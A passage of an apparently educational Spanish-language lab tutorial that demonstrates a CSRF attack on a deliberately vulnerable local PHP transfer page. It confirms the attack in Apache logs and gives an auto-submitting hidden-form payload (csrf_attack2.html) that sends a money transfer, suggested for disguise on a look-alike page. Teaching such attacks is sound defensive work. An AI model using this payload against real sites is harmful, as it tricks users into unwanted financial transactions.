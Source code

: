 - La imagen no se carga realmente.

- El navegador ejecuta la petición a transfer.php automáticamente.

- Se transfiere dinero sin que el usuario lo sepa.

Revisamos el log de apache para confirmar el ataque. Normalmente está en /var/log/apache2/access.log, como nosotros lo tenemos en un contenedor docker, lo buscamos allí, bien en access.log o en other_vhosts_access.log.

~~~
docker exec lamp-php83 /bin/bash -c "tail -5 /var/log/apache2/other_vhosts_access.log"
~~~

![](images/csrf3.png)

Confirmación: El ataque CSRF se ejecutó correctamente

- El log indica que el navegador envió una solicitud GET a transfer.php?amount=1000 desden csrf_attack.html.

- El servidor respondió con 200 OK, lo que significa que la transacción se realizó sin que el usuario lo notara.

Esto confirma que transfer.php es vulnerable a CSRF porque NO verifica el origen de la solicitud ni usa protección con tokens.

Una variante es que podemos insertar un formulario automático en una página legítima, con una estética muy parecida al diseño original, para engañar a la víctima.

Crea el archivo csrf_attack2.html:
~~~
<!DOCTYPE<html>
<body>
        <form action="http://localhost/transfer.php" method="POST">
                <input type="hidden" name="amount" value="1000">
                <input type="submit">
        </form>
        <script>
                document.forms[0].submit();
        </script>
</body>
</html>
~~~
El usuario al realizar una transferencia, no se dá cuenta que en realidad ha realizado una transferencia a la cuenta del atacante

![](images/csrf4.png)
